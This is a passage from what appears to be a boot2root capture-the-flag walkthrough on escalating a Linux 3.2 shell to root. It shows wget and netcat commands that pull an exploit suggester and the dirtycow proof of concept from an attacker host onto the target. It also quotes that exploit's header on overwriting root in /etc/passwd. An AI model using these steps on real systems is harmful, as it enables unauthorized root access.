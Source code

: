 We can now connect to the machine using `SSH` using the user `laurie`:
```bash
ssh laurie@boot2root.vm
```
```
laurie@BornToSecHackMe:~$
```


Here, we have access to a user shell on a supposedly old kernel. Let's look at some vulnerabilities for it.


```
# on the host machine:
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O exploit_suggester.sh
nc -l 5556 < exploit_suggester.sh
```

```
# on the target machine: 
nc  192.168.56.1 5556 > exploit_suggester.sh
bash exploit_suggester.sh | head -n 50
```

This suggests a number of available exploits for this kernel version (3.2.0).
We pick the first one first to see what gives and use one of the available 
Proof-Of-Concepts

```
# same as before, on the host machine:
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
nc -l 5556 < dirty.c
```

```
# on the target machine :
nc  192.168.56.1 5556 > dirty.c
```

In the header of dirty.c, we can see: 
```
//
// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
```